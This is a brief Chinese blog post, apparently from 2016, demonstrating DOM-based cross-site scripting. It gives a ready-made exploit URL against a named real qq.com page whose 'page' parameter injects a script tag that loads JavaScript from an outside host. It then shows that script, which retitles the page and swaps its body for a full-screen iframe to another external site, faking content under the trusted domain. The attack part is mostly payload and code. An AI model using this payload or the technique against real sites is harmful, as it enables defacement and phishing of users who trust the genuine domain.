 ```yaml
---
layout: post
title: "DOM XSS"
date: 2016-08-03 11:04:09 +0800
comments: true
categories: security
---
```

因为JavaScript脚本功能强大，我们可以利用它来更改整个页面内容，所以我们就可以制造出利用真的目标域名的假页面

http://app.2008.qq.com/ppzj/view_dh.php?page=%22%3E%3Cscript%20src%3D%22http%3A%2F%2Fxxxx.com%2Fyy.js%22%3E%3C%2Fscript%3E

![](http://jason5.cn/images/xss-dom.png)

page解码后为

```javascript
"><script src="http://xxxx.com/yy.js"></script>
```

yy.js的内容

```javascript
function window.onload(){
	parent.document.title="XSS test";
    parent.document.bgColor="black";
    parent.document.fgColor="white";
    parent.document.body.innerHTML="<iframe src='http://www.qqdx.albbz.cn/' width='100%' height='100%'>";
}
```

原始页面内容
http://app.2008.qq.com/ppzj/view_dh.php?page=1

![](http://jason5.cn/images/xss-dom1.png)